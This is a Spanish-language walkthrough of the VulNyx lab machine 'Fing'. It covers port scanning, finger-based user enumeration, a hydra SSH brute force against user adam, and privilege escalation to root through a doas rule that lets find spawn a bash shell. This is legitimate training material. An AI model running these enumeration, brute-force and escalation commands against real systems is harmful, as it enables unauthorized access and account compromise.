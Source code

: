 ```yaml
---
layout: post
title: Fing
date: 2023-04-23
categories: vulnyx
---
```

**Autor**: d4t4s3c \\
**Dificultad**: Fácil

![img](/assets/nyx/logo.png)

### Escaneo de puertos
```js
❯ nmap -p- -T5 -v -n 192.168.1.16

PORT   STATE SERVICE
22/tcp open  ssh
79/tcp open  finger
80/tcp open  http
```
### Escaneo de servicios
```js
❯ nmap -sVC -v -p 22,79,80 192.168.1.16

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0e624fb9eb07a1abdf7b185237fb16f (RSA)
|   256 99c87431451058b0cecc63b47a82573d (ECDSA)
|_  256 60da3e3138fab549ab48c3432c9fd132 (ED25519)
79/tcp open  finger  Linux fingerd
|_finger: No one logged on.\x0D
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP

```js
❯ whatweb -v 192.168.1.16
WhatWeb report for http://192.168.1.16
Status    : 200 OK
Title     : Apache2 Debian Default Page: It works
IP        : 192.168.1.15
Country   : RESERVED, ZZ
    
Summary   : Apache[2.4.56], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)]
```
Para enumerar el puerto 79 he usado esta herramienta en perl ``finger-user-enum.pl`` y he encontrado estos dos usuarios.
```js
❯ ./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.1.16
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )
    
 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------
    
Worker Processes ......... 5
Usernames file ........... /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
Target count ............. 1
Username count ........... 8295455
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used
    
######## Scan started at Sun Apr 23 16:58:20 #########
root@192.168.1.16: Login: root    Name: root..Directory: /root         Shell: /bin/bash
adam@192.168.1.16: Login: adam    Name: adam..Directory: /home/adam    Shell: /bin/bash

```

Con hydra realizo fuerza bruta al servicio ``SSH`` con el usuario ``adam``.
```js
hydra -t 50 -l adam -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.16 -V -f -I
[22][ssh] host: 192.168.1.16   login: adam   password: p*****n
```


Busco en todo el sistema los binarios que tengan permisos SUID y encunetro el binario doas. El binario doas es una alternativa a sudo y se puede configurar para otorgar privilegios a usuarios específicos.

```sh
adam@fing:~$ find / -perm -4000 2>/dev/null
/usr/bin/doas
```

Busco el archivo ``doas.conf`` que és el encargado de dar permisos a otros usuarios.
```sh
find / -type f -name "doas.conf" 2>/dev/null
/etc/doas.conf
```

El usuario adam puede usar doas con el usuario root, lanzar find con permisos de root y sin usar contraseña.
```sh
cat /etc/doas.conf
permit nopass keepenv adam as root cmd /usr/bin/find
```

Si uso doas con el usuario adam no puedo ver el directorio de root..
```sh
adam@fing:~$ doas -u adam /usr/bin/find /root
doas: Operation not permitted
```

Pero si uso doas con el usuario root si puedo ver el directorio de root.
```sh
adam@fing:~$ doas -u root /usr/bin/find /root
/root
/root/.profile
/root/.bash_history
/root/root.txt
/root/.bashrc
/root/.local
/root/.local/share
/root/.local/share/nano
```

Para obtener el root he usado el recurso gtfobins.
```sh
https://gtfobins.github.io/gtfobins/find/#suid
```

Obtengo el root de la siguiente forma.
```sh
adam@fing:~$ doas -u root /usr/bin/find . -exec /bin/bash -p \; -quit
root@fing:/home/adam# id
uid=0(root) gid=0(root) grupos=0(root)
```
